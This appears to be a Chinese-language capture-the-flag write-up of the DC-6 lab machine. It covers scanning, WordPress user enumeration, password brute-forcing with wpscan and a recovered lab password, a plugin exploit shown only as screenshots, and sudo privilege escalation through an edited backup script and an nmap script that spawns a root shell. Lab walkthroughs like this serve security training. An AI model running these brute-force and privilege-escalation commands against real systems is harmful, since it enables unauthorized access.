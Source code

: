 ```yaml
---
title: DC-6
author: Pp1ove
avatar: \img\custom\head.jpg
authorLink: 
authorAbout: Pplover
authorDesc: 一个好奇的人
categories: 靶机
comments: false
date: 2021-02-18 09:55:10
tags: 渗透
keywords:
description:
photos: \img\article\22.png
---
```


# 信息搜集

## 主机发现

```
nmap -sn 192.168.182.0/24
nmap -sS 192.168.182.147
```

浏览器地址栏输入靶机IP地址，发现显示域名但无法解析域名导致无法访问网站

host文件添加:   192.168.182.147  wordy

成功访问

![image-20210218100327727](DC-6/image-20210218100327727.png)

查看一下cms

![image-20210218100348722](DC-6/image-20210218100348722.png)

找到后台登录地址

![image-20210218100603346](DC-6/image-20210218100603346.png)

## 后台登录

### 使用cewl工具破解密码

```
cewl http://wordy -w PASS.TXT
```

### 使用wpscan跑用户名

```bash
wpscan --url http://wordy 
wpscan --url http://wordy -e u    #将扫出的用户名保存到USER.TXT
```

### 暴力破解

先用的PASS.TXT结果没有跑出来,然后官方线索里面有这样一句话

![img](DC-6/9221879-91fb235985cdf1e8.png)

rockyou.txt，这个字典非常庞大，有几千万的数据，如果使用整个字典爆破的话要花费很长时间，所以先输入提示中的命令来筛选一些密码保存到文件中，再进行爆破。

```
wpscan --url wordy -U USER.TXT -P passwords.txt  
```

成功爆出密码

```
Username: mark, Password: helpdesk01
```

登录后台

![image-20210218104822233](DC-6/image-20210218104822233.png)

# 漏洞发现

在后台里面发现activity monitor插件，我们尝试搜索这个插件的漏洞

![image-20210218105327551](DC-6/image-20210218105327551.png)

```
searchsploit activity monitor
```

发现一个csrf漏洞

<img src="DC-6/image-20210218105505273.png" alt="image-20210218105505273" style="zoom:200%;" />

# getshell

修改一下

![image-20210218110826183](DC-6/image-20210218110826183.png)

但是没有成功

抓包修改了一下poc

![image-20210218113157325](DC-6/image-20210218113157325.png)

成功getshell

![image-20210218111936421](DC-6/image-20210218111936421.png)

进入交互界面

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

# 提权

成功getshell之后在home目录下一顿乱翻

发现

![image-20210218112830572](DC-6/image-20210218112830572.png)

估计添加了个新用户

成功登录

执行：`sudo -l`，在`/home/jens`目录下发现一个sh文件，如果以jens身份执行不需要密码。`cat`查看文件内容发现是对网站的打包命令，作用是备份网站根目录。

![image-20210218113513843](DC-6/image-20210218113513843.png)

## 越权jens

那么如果在这个文件中写入/bin/bash命令，然后以jens用户身份运行就可以获取到jens的shell了。命令：

```
echo "/bin/bash" >> backups.sh
sudo -u jens ./backups.sh
```

![image-20210218114200691](DC-6/image-20210218114200691.png)

## 越权root

执行`sudo -l`命令，发现在**jens**的shell下，可以在不需要密码的情况下，以**root**的身份权限执行nmap

![image-20210218115329917](DC-6/image-20210218115329917.png)

nmap工具是可以执行脚本的，那么我们把弹root用户shell的命令写入到nmap的脚本里面，然后用nmap命令执行即可切换到root用户的shell。命令：

```
echo 'os.execute("/bin/sh")' > 2.sh
sudo  nmap  --script=2.sh
```

![image-20210218115921928](DC-6/image-20210218115921928.png)

获取flag

![image-20210218120014508](DC-6/image-20210218120014508.png)